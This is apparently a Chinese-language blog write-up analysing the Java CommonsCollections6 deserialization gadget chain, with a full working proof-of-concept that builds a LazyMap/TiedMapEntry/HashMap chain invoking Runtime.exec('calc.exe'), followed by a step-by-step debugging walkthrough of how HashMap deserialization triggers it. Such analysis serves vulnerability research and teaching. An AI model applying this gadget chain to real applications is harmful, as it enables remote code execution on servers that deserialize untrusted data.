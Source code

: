 ## CommonsCollections_6

本机环境：

JDK版本：jdk1.7u_51

CC版本：Commons-Collections 3.2.1

![image-20220719150534383](https://cosmoslin.oss-cn-chengdu.aliyuncs.com/img2/image-20220719150534383.png)

## POC&复现

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.HashMap;
import java.util.HashSet;
import java.util.Map;

public class CommonCollections6 {
    public static void main(String[] args) throws Exception {
        Transformer[] fakeTransformers = new Transformer[] {new ConstantTransformer(1)};
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] { String.class,
                        Class[].class }, new Object[] { "getRuntime",
                        new Class[0] }),
                new InvokerTransformer("invoke", new Class[] { Object.class,
                        Object[].class }, new Object[] { null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] { String.class },
                        new String[] { "calc.exe" }),
                new ConstantTransformer(1),
        };
        //创建一个空的 ChainedTransformer
        Transformer transformerChain = new ChainedTransformer(fakeTransformers);
        //创建LazyMap并引入 TiedMapEntry
        Map innerMap = new HashMap();
        //恶意LazyMap对象outerMap
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);
        //将其作为 TiedMapEntry 的map属性
        TiedMapEntry tme = new TiedMapEntry(outerMap, "keykey");
        //将 tme 对象作为 HashMap 的⼀个key
        HashMap expMap = new HashMap();
        expMap.put(tme,"keykey");
        outerMap.remove("keykey");


        //反射修改
        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(transformerChain, transformers);

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(expMap);
        oos.close();

        System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object)ois.readObject();
    }
}
```

![image-20220719142451622](https://cosmoslin.oss-cn-chengdu.aliyuncs.com/img2/image-20220719142451622.png)

## 调式分析

在cc5，通过对`TiedMapEntry#toString`方法的调用，触发了`TiedMapEntry#getValue`，从而触发了`LazyMap#get`完成后半段的调用。

而在cc6中则是通过`TiedMapEntry#hashCode`触发对`TiedMapEntry#getValue`的调用：

![image-20220719142532112](https://cosmoslin.oss-cn-chengdu.aliyuncs.com/img2/image-20220719142532112.png)

在反序列化一个 HashMap 对象时，会调用 key 对象的 hashCode 方法计算 hash 值。那在此处当然也可以用来触发 TiedMapEntry 的 hashCode 方法。

![image-20220719143051467](https://cosmoslin.oss-cn-chengdu.aliyuncs.com/img2/image-20220719143051467.png)

这里跟到`HashMap#put`

![image-20220719143431642](https://cosmoslin.oss-cn-chengdu.aliyuncs.com/img2/image-20220719143431642.png)

ysoserial中，是利⽤ `java.util.HashSet#readObject `到` HashMap#put()` 到 `HashMap#hash(key)`

最后到 `TiedMapEntry#hashCode() `。

实际上在 `java.util.HashMap#readObject `中就可以找到` HashMap#hash()` 的调⽤，这里首先调用了putForCreate方法

![image-20220719151101658](https://cosmoslin.oss-cn-chengdu.aliyuncs.com/img2/image-20220719151101658.png)

其中便调用了hash

![image-20220719151151582](https://cosmoslin.oss-cn-chengdu.aliyuncs.com/img2/image-20220719151151582.png)

所以，我们只需要让这个key等于TiedMapEntry对象即可构造一个完整的利用链。

但是这里会面临一个问题，调用链会在 HashMap 的 put 方法调用时提前触发，需要想办法绕过触发。

在URLDNS链中，`Ysoserial`创建了一个URLStreamHandler的子类：SilentURLStreamHandler，该类重写了`getHostAddress()`方法，防止put的触发。

这里我们可以在向 HashMap push LazyMap 时先给个空的 ChainedTransformer，这样添加的时候不会执行任何恶意动作，put 之后再反射将有恶意链的 Transformer 数组写到 ChainedTransformer 中。



